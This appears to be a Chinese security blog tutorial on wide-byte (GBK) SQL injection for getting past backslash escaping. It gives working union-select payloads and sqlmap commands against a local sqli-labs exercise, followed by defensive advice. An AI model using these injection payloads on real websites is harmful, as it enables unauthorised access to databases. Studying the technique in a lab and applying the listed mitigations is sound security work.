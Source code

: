 ```yaml
---
layout: post
title: 1.4.1-SQL注入防御绕过-宽字节注入
category: 
  - web安全
tags: 
  - web安全
  - sql注入
abbrlink: 2024290485
date: 2018-06-30 00:00:00
---
```


## 01 宽字节注入原理

> 什么是宽字节
> GB2312、GBK、GB8030、BIG5、Shift_JIS等这些都是常说的宽字节，实际为两字节。

站点可能为了防止SQL注入，会加\转义'，最后变成\'  

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/09/01.jpeg)

MySQL在使用GBK编码的时候，会认为两个字符为一个汉字。
使用%df'进行编码，两个字符组合，认为是一个汉字。  
注：前一个Ascii码大于128才能到汉字的范围

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/09/02.jpeg)

## 02 宽字节注入方法

	http://127.0.0.1/sqli-labs/Less-32/?id=%df' union select 1,(select user()),3--+

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/09/03.jpeg)

	http://127.0.0.1/sqli-labs/Less-32/?id=%df' union select 1,(select table_name from information_schema.tables where table_schema=database() limit 0,1),3--+ // 查表

	sqlmap:
	sqlmap -u "http://127.0.0.1/Less-32/?id=1" // 判断id不是注入点 因为被转义

	sqlmap -u "http://127.0.0.1/Less-32/?id=1%df" // 通过宽字节注入

--- 

> 宽字节注入应对策略：
+ 使用utf-8,避免宽字节注入；
ps：不仅在gbk，韩文、日文等等都是宽字节，都有可能存在宽字节注入漏洞。

+ mysql_real_escape_string,mysql_set_charset('gbk',$conn) // 替换 和 编码 两个函数一起使用

+ 可以设置参数，charcater_set_client=binary // 设置mysql的连接参数，使用二进制模式

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/09/04.png)

































